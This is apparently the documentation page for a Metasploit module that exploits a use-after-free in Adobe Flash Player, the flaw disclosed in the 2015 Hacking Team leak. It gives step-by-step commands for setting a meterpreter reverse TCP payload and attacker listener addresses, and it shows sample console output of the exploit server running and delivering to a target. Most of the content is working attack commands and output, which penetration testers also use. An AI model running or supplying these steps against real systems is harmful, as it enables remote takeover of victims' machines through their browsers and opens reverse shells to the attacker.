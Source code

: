 ##Description

This module exploits an use after free on Adobe Flash Player. The vulnerability, discovered by Hacking Team and made public as part of the July 2015 data leak, was described as an Use After Free while handling ByteArray objects. This module has been tested successfully on:
Windows 7 SP1 (32-bit), IE11 and Adobe Flash 18.0.0.194,
Windows 7 SP1 (32-bit), Firefox 38.0.5 and Adobe Flash 18.0.0.194,
Windows 8.1 (32-bit), IE11 and Adobe Flash 18.0.0.194,
Windows 8.1 (32-bit), Firefox and Adobe Flash 18.0.0.194, and
Linux Mint "Rebecca" (32 bits), Firefox 33.0 and Adobe Flash 11.2.202.468.





## Verification Steps



1. Do: ```use exploit/multi/browser/adobe_flash_hacking_team_uaf```
2. Do: ```set payload windows/meterpreter/reverse_tcp```
2. Do: ```set LHOST [IP]```
3. Do: ```set SRVHOST [IP]```
3. Do: ```set URIPATH / [PATH]```
4. Do: ```run```

## Sample Output

```
msf > use exploit/multi/browser/adobe_flash_hacking_team_uaf
msf exploit(adobe_flash_hacking_team_uaf) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(adobe_flash_hacking_team_uaf) > set lhost 172.16.178.160
lhost => 172.16.178.160
msf exploit(adobe_flash_hacking_team_uaf) > set srvhost 172.16.178.160
srvhost => 172.16.178.160
msf exploit(adobe_flash_hacking_team_uaf) > set uripath /
uripath => /
msf exploit(adobe_flash_hacking_team_uaf) > show options

Module options (exploit/multi/browser/adobe_flash_hacking_team_uaf):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Retries  true             no        Allow the browser to retry the module
   SRVHOST  172.16.178.160   yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH  /                no        The URI to use for this exploit (default is random)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.16.178.160   yes       The listen address
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows


msf exploit(adobe_flash_hacking_team_uaf) > exploit
[*] Exploit running as background job.

[*] Started reverse TCP handler on 172.16.178.160:4444 
[*] Using URL: http://172.16.178.160:8080/
[*] Server started.
msf exploit(adobe_flash_hacking_team_uaf) > [*] 172.16.178.203   adobe_flash_hacking_team_uaf - Gathering target information for 172.16.178.203
[*] 172.16.178.203   adobe_flash_hacking_team_uaf - Sending HTML response to 172.16.178.203
```
